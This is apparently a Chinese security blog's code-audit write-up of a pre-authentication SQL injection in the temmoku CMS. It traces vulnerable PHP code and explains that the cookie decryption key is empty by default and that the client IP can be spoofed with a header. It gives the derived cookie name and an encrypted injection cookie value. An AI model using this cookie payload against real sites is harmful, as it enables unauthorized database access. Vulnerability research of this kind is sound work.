 ```yaml
---
title: temmoku home版 t1.15 前台sqli
tags: 
  - cms
categories: codereview
date: 2019-02-21 21:09:44
---
```


## 0x00
很久没有审计了，找了个简单的cms审计
这次找的是temmoku，他修改了thinkphp作为他的底层框架。
代码写的很难受，写出来的界面也很难受，所以找了个注入就不想看了，记录一下。

## 0x01 前台注入

这套cms，每个控制器都继承了`temmoku/controller.php`，其中controller构造函数做了相关权限控制
找到`temmoku/controller.php`，定位到__construct函数

```php
function __construct()
{
 $this->_view     =   new view();
    if(!cookie::get('USER_First_Visit')){
      cookie::set('USER_First_Visit',$_SERVER['REQUEST_TIME_FLOAT']);
    }
$lock=APP_PATH.'conf/install.lock';
  if(is_file($lock)){
    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_begin');
    }
    //验证普通会员状态
    $this->User_Check();// 注入

    if('admin'!=MODULE && 'user'!=MODULE){
      hook_listen('index_power_end');
    }

  }
}
```
注意到第13行，调用了User_Check函数，这个函数完成了从cookie中获取到登陆后的加密字串，解密后再查询的操作。
```php
private function User_Check(){
      $ORDINARY_MEMBER=cookie::get('ORDINARY_MEMBER');
      if($ORDINARY_MEMBER){
      if(json_encode($ORDINARY_MEMBER)){
        $ORDINARY_MEMBER=decode($ORDINARY_MEMBER);
        list($uid,$password,$onlineip)=$r =explode(' ',$ORDINARY_MEMBER);
        if(!intval($uid) || !$password || C('ONLINEIP') != $onlineip || !$onlineip){
          cookie::del('ORDINARY_MEMBER');
          return;
        }
        $data = (new lib\user)->Cookie_Login($uid,$password);// TODO 伪造cookie 对password做数据注入
        if('0'===$data['code']){
          $data['UserDB']['thumb'] ? $data['UserDB']['thumb']=get_img_url($data['UserDB']['thumb']) : $data['UserDB']['thumb']='/public/global/images/default.png';
          C('MYDB',$data['UserDB']);
          $group=C('USER_GROUP.'.$data['UserDB']['groupid']);
          $group['setting']=unserialize($group['setting']);
          C('MYGROUP',$group);
        }else{
          cookie::del('ORDINARY_MEMBER');
          return;
        }
      }else{
        cookie::del('ORDINARY_MEMBER');
        return;
      }
    }
}
```
从cookie中获得ORDINARY_MEMBER相关的cookie内容，并交由decode解密，解密出uid,password,onlineip，直接带入到Cookie_Login函数，我们先来看一下这个函数，等会再讲如何构造加密串
```php
public function Cookie_Login($uid,$password){
    $UserDB=$this->select('*')->from(jab."user")->where("uid='$uid' AND password='$password'")->row();
    if($UserDB){
      return array("code"=>'0','text'=>"登录成功",'UserDB'=>$UserDB);
    }else{
      return array("code"=>'21','text'=>"密码错误");
    }
}
```
可以看到函数内第一句，进行了数据库查询，熟悉thinkphp的同学肯定知道where函数拼接参数同样能造成注入，那么问题就是如何构造出password来进行注入了，回到上面提到的decode函数，来看一下函数内容
```php
    /**
     * 解密函数
     * @param string $txt 需要解密的字符串
     * @param string $key 密匙
     * @return string 字符串类型的返回结果
     */
function decode($txt, $key = '', $ttl = 0){
    if (empty($txt)) return $txt;
    if (empty($key)) $key = md5(C('MD5'));
    // ... 后面的相关数学操作无关紧要
}
```
注意到在User_Check函数里调用decode时，并没有指定key，那么默认就是取配置文件中的MD5，其值默认为空，所以知道了key以及对应的加密函数，我们就能自己构造相关内容。
其中还有一个要注意的地方是，我们需要同时构造cookie的键内容和onlineip，只有当cookie中名字对时才能取到，只有当onlineip对时才能进行数据库查询。
先来看第一个，构造cookie名
定位`temmoku/lib/cookie.php`

```php
public static function get($key){
  $key=C('cookie_is_en')=='1' ? 'temmoku_'.md5(C('MD5')."_".$key) : 'temmoku_'.$key;
  return empty($_COOKIE[$key]) ? 0 : $_COOKIE[$key];
}
```
默认cookie_is_en为1，所以是加密的，cookie的名字为`temmoku_+md5("_ORDINARY_MEMBER")`
因为MD5默认为空，这样我们就能推出cookie名为`temmoku_c3daef9b5af4ca25121457287fd0c2ac`
其次我们需要构造onlineip,来看看这个onlineip是怎么获取的
定位`temmoku/app.php`

```php
private static function default_config(){
  // ...
  C('onlineip',getRealIp());// TODO 可伪造Ip
  define('onlineip', getRealIp());
  // ...
}
```
继续向下
```php
function getRealIp(){
  $ip=false;
  if(!empty($_SERVER["HTTP_CLIENT_IP"])){
    $ip = $_SERVER["HTTP_CLIENT_IP"];
  }
  if (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
      $ips = explode (", ", $_SERVER['HTTP_X_FORWARDED_FOR']);
    if ($ip) { array_unshift($ips, $ip); $ip = FALSE; }
    for ($i = 0; $i < count($ips); $i++) {
        if (!preg_match ("/^(10│172.16│192.168)./", $ips[$i])) {
            $ip = $ips[$i];
            break;
        }
    }
  }
  return ($ip ? $ip : $_SERVER['REMOTE_ADDR']);
}
```
可以看出用Client-Ip就能伪造，那么现在问题都解决了，可以构造加密串了

## 0x02 构造加密串

```php
<?php
/**
 * Created by PhpStorm.
 * User: wh1t3P1g
 * Date: 2019/2/21
 * Time: 19:48
 */

function decode($txt, $key = '', $ttl = 0){
    ...
}

function encode($txt, $key = ''){
    ...
}

echo encode('1550750916.778 \' 127.0.0.1');
```
得到加密串`iBuikbGflt4lk4LiZ747G7NBIm9uPlLKikooVtsqagnfQIk1NZI0-rW`，直接加在cookie里就能造成系统出现数据库错误

## 0x03 总结
这个漏洞是比较经典的问题，用了加密后，开发者默认认为解密后的字符串是安全的，直接拼接到数据库操作上导致的注入。




